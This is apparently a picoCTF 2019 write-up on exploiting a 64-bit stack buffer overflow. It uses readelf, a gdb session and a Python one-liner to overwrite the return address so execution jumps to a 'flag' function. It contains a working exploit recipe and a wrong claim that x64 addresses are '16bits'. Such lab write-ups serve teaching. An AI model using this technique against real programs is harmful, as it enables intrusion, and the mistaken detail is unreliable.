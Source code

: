 This is x64 bits, so the registers name are different `ebp` now is `rbp` and the `esp` is `rsp`, and ofcourse the address 
size is 16bits. 

It is the same as [OverFlow1](https://github.com/alshaboti/CTFs/blob/master/picoCTF2019/OverFlow1.MD), where we need to 
control the `rip` to jump to `flag` function. 

1- let's get flag address
```
$readelf -s vuln|grep flag
70: 0000000000400767   101 FUNC    GLOBAL DEFAULT   13 flag
```
`flag` function address is `0x0000000000400767`

2- Let's find the offset between the start of the `buf` and the `rip` (which is `$rbp+16`).

We will set break point just after gets function, then find where the 
```
$gdb vuln
(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x00000000004007cc <+0>:     push   %rbp
   0x00000000004007cd <+1>:     mov    %rsp,%rbp
   0x00000000004007d0 <+4>:     sub    $0x40,%rsp
   0x00000000004007d4 <+8>:     lea    -0x40(%rbp),%rax
   0x00000000004007d8 <+12>:    mov    %rax,%rdi
   0x00000000004007db <+15>:    mov    $0x0,%eax
   0x00000000004007e0 <+20>:    callq  0x400630 <gets@plt>
   0x00000000004007e5 <+25>:    nop
   0x00000000004007e6 <+26>:    leaveq 
   0x00000000004007e7 <+27>:    retq   
End of assembler dump.
(gdb)b *0x00000000004007e5
(gdb)run 
AAAAAAAAAAAAAAAAA
(gdb) x/100x $rsp
0x7ffff4508970: 0x41414141      0x41414141      0x41414141      0x41414141
0x7ffff4508980: 0x00400041      0x00000000      0x4fe3cb62      0x00007fb7
...
<note AAA starts at 0x7ffff4508970 address, which is the begining of the buf>
(gdb)p/d $rbp-0x7ffff4508970
$3 = 64
```
We find the start of the buf (which in this case is the same as the stack pointer) `0x7ffff4508970`, then we compute the 
offset between buf and $rbp (64bytes) we need to add 64bits (i.e. 8bytes) to find the shift to the $rip. 

So the offset is 64bytes+8bytes = 72bytes

Note: $rip is one address above the $rbp.

3- let's now fill the offset with dump `A` and put the `flag` address on the `$rip` location.
```
python -c 'import struct; print("A"*72+struct.pack("<I",0x0000000000400768) )'|./vuln
```
For some reason I had to add one byte to the add of `flag` function.
